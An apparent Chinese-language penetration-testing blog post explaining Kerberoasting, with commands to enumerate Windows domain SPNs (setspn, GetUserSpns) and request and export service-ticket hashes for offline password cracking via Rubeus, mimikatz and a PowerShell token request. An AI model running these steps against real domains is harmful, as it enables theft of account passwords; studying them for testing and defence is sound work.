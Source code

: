 Kerberoast 攻击原理: 攻击者从 TGS-REP 中提取加密的服务票证。 由于服务票证是用链接到请求 SPN 的帐户的哈希加密的，所以攻击者可以离线破解这个加密块，恢复帐户的明文密码

### How to get SPN

如何得到域中的所有 SPN？

**1.setspn**  
很简单，只需执行

```
setspn -q */*
```

即可

**2.kerberoast 工具集的 GetUserSpns powershell 脚本**

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132445.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132445.png)

### How to get HASH

如何得到 hash？  
有如下方法

**1.Rubeus.exe**

这个工具 github 上就有，但是 clone 下来后需要自己编译成 exe.

然后执行 Rubeus.exe kerberoast 指令即可

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132502.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132502.png)

**2.mimikatz**

mimikatz 真的神器。  
通过命令 kerberos::ask /target: 你所指定的 SPN,

[![](http://www.const27.com/wp-content/uploads/2020/09/image-33.png)](http://www.const27.com/wp-content/uploads/2020/09/image-33.png)

即可通过认证的方式得到一个 ST。  
然后我们在 kerberos::list 里可以看到我们想要的 ST

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132529.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217132529.png)

**3.powershell**

越来越发现 powershell 在域渗透中的重要性了  
输入以下指令，即可完成 HASH 获取

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306/MySQL"
```

然后 mimikatz 导出即可
